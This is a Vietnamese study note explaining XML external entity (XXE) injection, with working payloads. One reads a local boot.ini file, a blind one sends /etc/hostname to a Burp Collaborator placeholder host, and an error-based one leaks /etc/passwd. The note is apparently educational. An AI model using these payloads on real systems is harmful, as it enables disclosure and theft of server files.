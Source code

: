 # XXE: XML external entity

- XML: extensible markup language -- được thiết kế với mục đích lưu trữ và truyền dữ liệu và cả người và máy đều có thế đọc được
- External entity
    - DTD (document type definitions): xác định cấu trúc, format hợp lệ của các elements và attributes trong file xml. Có 2 loại internal DTD (nằm trong file xml) và external DTD (nằm ngoài file xml).
    - DTD entity:
        - Internal: `<!ENTITY entity-name "entity-value">`
        - External: `<!ENTITY name SYSTEM "URL/URI">`

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY bar SYSTEM "file:///c:/boot.ini" >]>
<foo>&bar;</foo>
```

- `<!DOCTYPE foo [ ... ]>`: Xác định Document Type Definition (DTD) cho tài liệu XML. Trong đó:
  - `<!ELEMENT foo ANY>`: Khai báo phần tử foo có thể chứa bất kỳ nội dung nào.
  - `<!ENTITY bar SYSTEM "file:///c:/boot.ini">`: Tạo một thực thể (entity) tên là bar, liên kết với file trên hệ thống cục bộ (file:///c:/boot.ini).

## Example

### Blind 


```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```

Lấy dữ liệu qua thông báo lỗi
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```


